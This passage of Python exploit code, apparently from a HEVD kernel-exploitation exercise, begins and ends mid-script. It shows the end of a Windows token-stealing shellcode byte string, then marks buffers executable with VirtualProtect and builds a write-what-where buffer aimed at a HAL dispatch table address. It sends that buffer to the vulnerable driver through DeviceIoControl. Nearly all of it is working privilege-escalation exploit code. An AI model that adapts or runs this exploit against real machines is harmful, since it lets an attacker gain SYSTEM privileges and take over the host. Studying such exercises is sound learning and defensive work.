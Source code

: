 ```python
        "\xBA\x04\x00\x00\x00"
        "\x8B\x80\xB8\x00\x00\x00"
        "\x2D\xB8\x00\x00\x00"
        "\x39\x90\xB4\x00\x00\x00"
        "\x75\xED"
        "\x8B\x90\xF8\x00\x00\x00"
        "\x89\x91\xF8\x00\x00\x00"
        "\x61"
        "\xC3"
    )
 
    # create a buffer and fill it with shellcode, mark it RWX with VirtualProtect
    print("[*] Allocating shellcode character array...")
    usermode_addr = (c_char * len(shellcode)).from_buffer(shellcode)
    ptr = addressof(usermode_addr)
    print("[*] Allocated shellcode char array at: " + hex(ptr))
 
    print("[*] Marking shellcode RWX...")
   
    result = kernel32.VirtualProtect(
        usermode_addr,
        c_int(len(shellcode)),
        c_int(0x40),
        byref(c_ulong())
    )
 
    if result == 0:
        print("[!] VirtualProtect failed with error code: {}".format(str(GetLastError())))
 
    # create new buffer to hold pointer to shellcode
    print("[*] Allocating our What buffer...")
    new_buf_contents = bytearray(struct.pack("<L", ptr))
    new_buf = (c_char * len(new_buf_contents)).from_buffer(new_buf_contents)
    new_buf_ptr = addressof(new_buf)
    print("[*] Allocated What buffer at: " + hex(new_buf_ptr))
 
    print("[*] Marking What buffer RWX...")
    result = kernel32.VirtualProtect(
        new_buf,
        c_int(len(new_buf_contents)),
        c_int(0x40),
        byref(c_ulong())
    )
 
    if result == 0:
        print("[!] VirtualProtect failed with error code: {}".format(str(GetLastError())))
 
    buf = struct.pack("<L", new_buf_ptr)
    buf += struct.pack("<L", target_hal)
    buf_length = len(buf)
 
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )
 
    if result != 0:
```